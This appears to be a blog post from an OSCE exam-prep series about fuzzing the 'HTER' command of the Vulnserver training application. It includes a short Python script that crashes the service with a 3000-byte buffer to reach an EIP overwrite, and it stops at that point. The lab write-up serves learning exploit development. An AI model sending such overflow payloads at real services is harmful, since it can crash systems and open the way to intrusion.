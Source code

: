 ```yaml
---
layout: single
title: CTP/OSCE Prep -- Boofuzzing Vulnserver for EIP Overwrite
date: 2019-6-04
classes: wide
header:
  teaser: /assets/images/CTP/immunity.jpg
tags:
  - buffer overflow
  - Windows
  - x86
  - shellcoding
  - exploit development
  - assembly
  - python
  - OSCE
  - CTP
--- 
```

![](/assets/images/CTP/1920x1080_Wallpaper.jpg)

## Introduction

This series of posts will focus on the concepts I'm learning/practicing in preparation for [CTP/OSCE](https://www.offensive-security.com/information-security-training/cracking-the-perimeter/). In this series of posts, I plan on exploring:
+ fuzzing,
+ vanilla EIP overwrite,
+ SEH overwrite, and
+ egghunters.

Writing these entries will force me to become intimately familiar with these topics, and hopefully you can get something out of them as well! 

This particular post is about exploiting the 'HTER' command on Vulnserver. 

## Fuzzing

Long story short here, Boofuzz was giving me all kinds of different payloads which were all crashing the application but none of them were consistent. The only thing I picked up from the fuzzing payloads was:
1. Our application is vulnerable to a buffer overflow
2. All the payloads were prepended with: `"HTER "`

So I started to manually fuzz the application with just our skeleton exploit python script we've been using starting with a payload of: `'A' * 1000` and working my way up. 

The application started to crash when I got to `'A' * 3000`
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

buffer = 'A' * 3000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("HTER " + buffer)
print s.recv(1024)
s.close()
```
Then I saw *this in EIP. 

![](/assets/images/CTP/1920x1080_Wallpaper.jpg)

## Resources

+ [Do Buffer Overflow Good](https://github.com/justinsteven/dostackbufferoverflowgood)
+ [Finding Bad Characters](https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/)
+ [Intro to Boofuzz](https://zeroaptitude.com/zerodetail/fuzzing-with-boofuzz/)
+ [Vulnserver EIP Overwrite](https://captmeelo.com/exploitdev/osceprep/2018/06/27/vulnserver-trun.html)
+ [Vulnserver LTER EIP Overwrite](https://www.doyler.net/security-not-included/vulnserver-lter-eip-overwrite)
+ [Mona Guide](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)
+ [Immunity Debugger Basics](https://hsploit.com/immunity-debugger-basics/)
+ [Wallpaper](https://imgur.com/0S9DVnQ)
